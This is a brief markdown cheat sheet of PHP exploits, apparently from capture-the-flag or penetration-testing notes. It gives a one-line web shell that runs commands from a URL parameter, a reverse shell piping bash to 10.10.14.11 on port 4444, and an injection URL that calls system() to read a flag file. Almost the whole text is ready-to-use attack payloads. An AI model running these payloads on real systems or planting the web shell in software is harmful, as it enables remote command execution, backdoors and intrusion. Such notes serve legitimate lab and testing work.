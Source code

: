 # PHP

Common exploits in PHP.

## Cookies

`PHPSESSID` is the default session cookie name.

## Web shell

```php
<?php system($_GET["cmd"]); ?>
```

## Reverse shell

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/4444 0>&1'");?>
```

## Examples

```
http://<IP>:45338/?format=${system($_GET[id])}&id=cat%20../flag.txt
```
